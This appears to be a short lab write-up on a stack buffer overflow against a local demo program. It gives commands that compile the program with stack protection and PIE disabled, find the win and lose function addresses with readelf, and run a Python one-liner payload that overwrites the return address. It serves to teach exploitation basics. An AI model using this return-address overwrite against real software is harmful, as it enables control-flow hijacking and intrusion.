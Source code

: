 
## Buffer overflow

1. The goal is to modify a path of the program to go back to `win` or `lose` function instead of `main`.

2. Compile: `gcc -Wall -Wextra -fno-stack-protector -no-pie -o main main.c`
3. Find addresses of `win` and `lose` functions:
`readelf --symbols main | grep win`

4. Create a payload:
`./main $(python3 -c 'import sys; sys.stdout.write("A"*8 + "B"*8 + "\x37\x05\x40")')`